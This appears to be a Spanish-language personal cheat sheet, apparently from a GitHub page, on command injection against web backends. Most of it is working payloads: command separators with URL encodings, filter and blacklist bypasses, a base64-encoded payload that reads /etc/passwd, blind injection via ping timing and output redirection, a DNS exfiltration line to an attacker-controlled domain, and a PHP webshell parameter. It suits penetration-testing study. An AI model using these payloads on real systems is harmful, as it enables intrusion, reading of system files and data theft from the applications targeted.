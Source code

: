 siempre que se haga una consulta sobre un item a un backend contastar si es posible una injección de comando aparte de una sqli, 
algunos backends corren código para hacer querys sobre aplicaciones légacy ;)


Semicolon 	; 	%3b 	Both
New Line 	 \n 	%0a 	Both
Background 	& 	%26 	Both (second output generally shown first)
Pipe 	      | 	%7c 	Both (only second output is shown)
AND 	     && 	%26%26 	Both (only if first succeeds)
OR 	       || 	%7c%7c 	Second (only if first fails)
Sub-Shell  `` 	%60%60 	Both (Linux-only)
Sub-Shell  $() 	%24%28%29 	Both (Linux-only)

podemos luego de encontrar el conector entre comandos, si hay algún filtro posterior utilizar diferentes secuencias:
${IFS} inserta un espacio y una tabulación y luego el comando
{ls,-la} agrega comandos como argumentos y agregando espacios en los mismos

para bypassear blacklisted characters se puede utilizar una extracción del caracter del index de una variable de entorno:
${PATH:0:1} (en este caso estaríamos extrayendo el caracter del index 0 de la variable PATH que sería "/"
$env:HOMEPATH[0] mismo ejemplo en windows

podemos concatenar estas técnicas, ej:
127.0.0.1%0a{ls,${PATH:0:1}home}

SQL Injection 	' , ; -- /* */
Command Injection 	; &&
LDAP Injection 	* ( ) & |
XPath Injection 	' or and not substring concat count
OS Command Injection 	; & |
Code Injection 	' ; -- /* */ $() ${} #{} %{} ^
Directory Traversal/File Path Traversal 	../ ..\\ %00
Object Injection 	; & |
XQuery Injection 	' ; -- /* */
Shellcode Injection 	\x \u %u %n
Header Injection 	\n \r\n \t %0d %0a %09

### bypass command blacklisted

podemos agregar caracteres que no son tomados en cuenta en linux y windows como las comillas simples y dobles entre la morfologia del comando
who'am'i
who"am"i

##### Linux only:
who$@ami
w\ho\am\i

##### Windows:
 who^ami

podemos encontrarnos otras medidas como firewalls que nos bloqueen los comandos, con lo cual podemos utilizar diferentes técnicas de bypass:
Case manipulation:
WhOaMi 
Para las terminales case-sensitive como la terminal de linux, podemos utilizar comandos como:
$(tr "[A-Z]"%09"[a-z]"<<<"WhOaMi")
o aplicando un reversing:
linux:
$(rev<<<'imaohw')
windows:
iex "$('imaohw'[-1..-20] -join '')"

encodear un comando:
ejemplo de comando pasado a base64:
echo -n 'cat /etc/passwd | grep 33' | base64
resultado: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
payload: bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)


### Blind command injection
Podemos probar blind command injections utilizando comandos que incluyan un temporizador:

parametro= x||ping+-c+10+127.0.0.1||

Redirecting Output:
Podemos también crear archivos internos con la información de los comandos, de esta manera podremos luego visitar el archivo
creado y consultar el resultado:
parametro = || whoami > /var/www/static/whoami.txt ||

Out-of-band exfiltration:
x || nslockup 'whoami'.servidor-del-atacante.com ||
Nos llegara una request a un subdominio con los datos del comando ejecutado.


################## Code injection en un parametro php:
podemos crear una webshell en un parámetro php que ejecuta código de la siguiente manera:
parameter = ${system($_GET[cmd])}&cmd=
